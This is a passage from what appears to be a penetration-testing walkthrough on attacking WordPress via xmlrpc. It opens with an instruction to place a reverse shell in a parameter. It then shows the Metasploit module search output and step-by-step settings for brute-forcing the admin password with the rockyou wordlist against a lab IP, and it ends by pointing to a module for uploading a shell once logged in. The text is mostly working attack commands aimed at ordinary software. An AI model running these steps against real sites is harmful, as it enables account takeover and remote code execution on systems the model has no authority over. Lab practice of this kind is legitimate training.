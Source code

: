 now put any reverse shell at **id** and get shells

---

## Metasploit 

metasploit has modules for xmlrpc and wordpress

```
search wordpress xmlrpc
```

```
Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  auxiliary/dos/http/wordpress_xmlrpc_dos           2014-08-06       normal     No     Wordpress XMLRPC DoS
   1  auxiliary/scanner/http/wordpress_ghost_scanner                     normal     No     WordPress XMLRPC GHOST Vulnerability Scanner
   2  auxiliary/scanner/http/wordpress_multicall_creds                   normal     No     Wordpress XML-RPC system.multicall Credential Collector
   3  auxiliary/scanner/http/wordpress_xmlrpc_login                      normal     No     Wordpress XML-RPC Username/Password Login Scanner
   4  exploit/unix/webapp/php_xmlrpc_eval               2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution
```

lets try for bruteforcing login

```
msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > set RHOSTS 192.168.0.102
RHOSTS => 192.168.0.102
msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > set PASS_FILE /home/kali/tools/wordlists/rockyou.txt
PASS_FILE => /home/kali/tools/wordlists/rockyou.txt
msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > show options
```

run the module 

after getting the correct password we can upload shell using this module **exploit/unix/webapp/wp_admin_shell_upload**
